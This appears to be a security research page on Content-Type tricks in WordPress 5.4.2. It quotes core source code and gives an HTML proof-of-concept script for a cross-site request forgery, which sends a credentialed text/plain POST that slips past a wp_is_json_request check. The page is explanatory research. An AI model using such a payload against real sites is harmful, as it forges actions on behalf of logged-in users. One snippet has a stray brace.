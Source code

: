### WordPress 5.4.2

**Endpoint**
```php
function testjson1($request) {
  if(wp_is_json_request())
    $data = json_decode($request->getContent(), true);
  }
}

function testjson2($request) {
  $data = $request->get_json_params();
}
```

**Source code**  
[/WordPress/WordPress/wp-includes/load.php](https://github.com/WordPress/WordPress/blob/d7c0343d5f7e0efdad5b7dce64981e74f5d0b7a0/wp-includes/load.php#L1532-L1540)
```php
/wp-includes/load.php
function wp_is_json_request() {
    if ( isset( $_SERVER['HTTP_ACCEPT'] ) && false !== strpos( $_SERVER['HTTP_ACCEPT'], 'application/json' ) ) {
        return true;
    }
    if ( isset( $_SERVER['CONTENT_TYPE'] ) && 'application/json' === $_SERVER['CONTENT_TYPE'] ) {
        return true;
    }
    return false;
```

[/WordPress/WordPress/wp-includes/rest-api/class-wp-rest-request.php](https://github.com/WordPress/WordPress/blob/d7c0343d5f7e0efdad5b7dce64981e74f5d0b7a0/wp-includes/rest-api/class-wp-rest-request.php#L653-L665)
```php
public function get_json_params() {
    $this->parse_json_params();
    return $this->params['JSON'];
}

protected function parse_json_params() {
    ...
    $content_type = $this->get_content_type();
    if ( empty( $content_type ) || 'application/json' !== $content_type['value'] ) {
      return true;
    ...
}
```

**JSON Content-Type**
```
application/json
```

**wp_is_json_request CSRF PoC**  
Not a bug, but can be mistakenly used to check Content-Type
```html
<script>
  fetch('http://localhost/wp-json/testjson/v1/testjson1',{
    method:'POST',
    headers:{'Content-Type':'text/plain', 'Accept':'application/json'},
    body:'{"test":true}',
    credentials: 'include'
  });
</script>
```

**Multipart Content-Type**  
Same as [PHP](/ct-tricks/PHP.md)